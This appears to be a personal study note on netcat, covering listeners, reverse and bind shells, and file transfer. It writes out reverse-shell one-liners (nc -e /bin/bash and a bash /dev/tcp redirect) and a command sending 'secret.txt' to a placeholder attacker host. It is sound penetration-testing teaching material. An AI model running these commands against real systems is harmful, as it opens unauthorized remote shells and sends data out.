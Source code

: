 ```yaml
---
ID: REC002  
Date: 04-08-2025  
Tags: #netcat #reverse-shell #recon #networking #linux  
Category: Reconnaissance  
---
```


# REC002 – Netcat Basics & Reverse Shells

## 🧠 What I Learned

**Netcat** (often abbreviated as `nc`) is called the *Swiss Army knife* of networking. It's used for:
- Banner grabbing
- File transfer
- Port scanning
- Setting up listeners
- Reverse/Bind shells for exploitation

---

## 📡 Starting a Listener
```bash
nc -lvnp 4444

- `-l` = listen  
- `-v` = verbose output  
- `-n` = numeric IPs (no DNS resolution)  
- `-p` = port to listen on
```
This waits for a connection on port 4444.

---

## 🔁 Sending a Reverse Shell
```bash
nc attacker-ip 4444 -e /bin/bash
```
- `-e` executes the given command (i.e spawns a bash shell)
- **Requires traditional netcat** (`netcat-traditional`), not `ncat` or `openbsd-netcat`

Alternative for restricted shells:
```bash
bash -i >& /dev/tcp/attacker-ip/4444 0>&1
```
---

## 📂 Transferring Files
```bash
nc -lvp 1337 > received.txt
```

```bash
nc attacker-ip 1337 < secret.txt
```
---

## 🧱 Bind Shell (less stealthy)
```bash
nc -lvnp 5555 -e /bin/bash
```
This creates a shell on the **target** that the attacker connects to, not ideal in firewalled environments.

---

## ⚠️ Security Note

Many modern systems:
- Disable `-e` for security (especially `openbsd-netcat`)
- Flag `nc` usage as suspicious
- Require reverse shells to be obfuscated (e.g., Base64-encoded payloads)

---

## 🔗 Resources

- [GTFOBins: Netcat](https://gtfobins.github.io/gtfobins/nc/)  
- [HackTricks – Reverse Shell Cheatsheet](https://book.hacktricks.xyz/pentesting-web/shells/reverse-shell-cheatsheet)  
- [Netcat Cheat Sheet – SANS](https://pen-testing.sans.org/blog/2013/04/09/netcat-cheat-sheet)

---
